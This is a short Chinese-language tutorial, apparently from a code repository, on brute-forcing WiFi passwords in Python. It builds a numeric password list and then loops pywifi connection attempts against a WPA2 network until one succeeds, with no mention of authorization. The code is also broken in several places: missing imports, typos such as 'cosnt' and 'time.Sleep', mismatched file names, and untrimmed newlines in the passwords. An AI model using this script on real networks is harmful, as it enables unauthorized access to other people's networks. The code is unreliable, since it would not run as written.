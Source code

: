 # Python破解wifi密码

## 生成密码本

使用`itertools`工具生成密码本，`pip install itertools`

```python
words = '1234567890'
r = its.product(words, repeat=4)

with open('./passwords.txt', 'a') as tempfile:
    for i in r:
        tempfile.write(''.join(i))
        tempfile.write('\n')
```

## 暴力破解wifi密码

使用工具`pywifi`，用命令`pip install pywifi`

```python
# 获取wifi网卡
import pywifi
from pywifi import const



def wifi_connect(pwd):
    wifi = pywifi.PyWifi()
    ifaces = wifi.interfaces()[0]
    print(ifaces.name())
    ifaces.disconnect()
    time.Sleep(1)

    if ifaces.status() != cosnt.IFACE_DISCONNECTED:
        print("already connected")

    # 创建连接文件
    profile = pywifi.Profile()
    profile.ssid = '网卡ssid'
    profile.auth = const.AUTH_ALG_OPEN
    profile.akm.append(const.AKM_TYPE_WPA2PSK)
    profile.cipher = const.CIPHER_TYPE_CCMP
    profile.key = pwd

    # 删除所有连接过的wifi文件
    ifaces.remove_all_network_profiles()
    # 设置行的连接文件
    tep_profile = ifaces.add_network_profile(profile)
    ifaces.connect(tep_profile)
    # wifi连接时间
    time.sleep(3)

    if ifaces.status() == const.IFACE_CONNECTED:
        return True
    else:
        return False

def hack_wifi():
    with open("./password.txt") as tempfile:
        for line in tempfile.readlines():
            if wifi_connect(line):
                print('Success: ', line)
            
```

## Ref

[Python最新暴力破解WiFi，攻破所有密码限制，最强破解！](https://mp.weixin.qq.com/s/tA0z8clJz-T7Q6QMaZOykw)